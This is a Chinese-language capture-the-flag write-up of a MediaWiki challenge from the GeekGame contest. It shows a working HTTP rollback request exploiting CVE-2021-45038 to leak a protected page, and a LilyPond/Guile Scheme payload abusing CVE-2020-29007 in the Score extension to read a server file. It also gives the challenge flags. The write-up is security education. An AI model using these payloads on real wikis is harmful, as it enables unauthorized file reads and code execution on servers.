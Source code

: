 # 私有笔记

> 第二阶段提示后完成。

## Flag 1

根据提示，利用 [CVE-2021-45038](https://attackerkb.com/topics/nQ4e21277J/cve-2021-45038/vuln-details)，发送一个 `rollback` 请求，并将 `from` 参数设置为 `{{:Flag}}`，此时返回的回退失败的页面上会自动嵌入 `{{:Flag}}` 页面的内容，从而得到 Flag 1（`flag{insecure_01d_mediavviki}`）。

```txt
> POST /api.php%26action=rollback HTTP/2
> Host: prob07-2uqyuho6.geekgame.pku.edu.cn
> user-agent: insomnia/2022.4.2
> content-type: multipart/form-data; boundary=X-INSOMNIA-BOUNDARY
> accept: */*
> content-length: 341

* STATE: DO => DID handle 0xb6e02f1c808; line 2077 (connection #3)
* multi changed, check CONNECT_PEND queue!
* STATE: DID => PERFORMING handle 0xb6e02f1c808; line 2196 (connection #3)

| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="action"
| rollback
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="token"
| +\\
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="user"
| Flag1
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="from"
| {{:Flag}}
| --X-INSOMNIA-BOUNDARY--
```

## Flag 2

根据上一步的返回，可以看到有一个用户名为 `Flag1` 且密码为 Flag 1 内容的用户。使用这一用户可以成功登录。

实际上第一阶段时已经注意到 `特殊:版本` 页面中列出的扩展列表，其中的 `Score` 扩展版本很老，并可以查到相关的 [CVE-2020-29007](https://phabricator.wikimedia.org/T257062)。

按照查到的资料，编辑页面并插入下面的内容：

```xml
<score lang="lilypond">\new Staff <<{c^#
(object->string (call-with-input-file "/flag2" read))
}>></score>
```

预览即可得到 Flag 2（`flag{li1yp0nd_can_1ead_to_rce}`）：

![Flag 2](./lilypond.png)

> 研究 `Guile Scheme` 读取文件的正确方法折腾了挺久。。
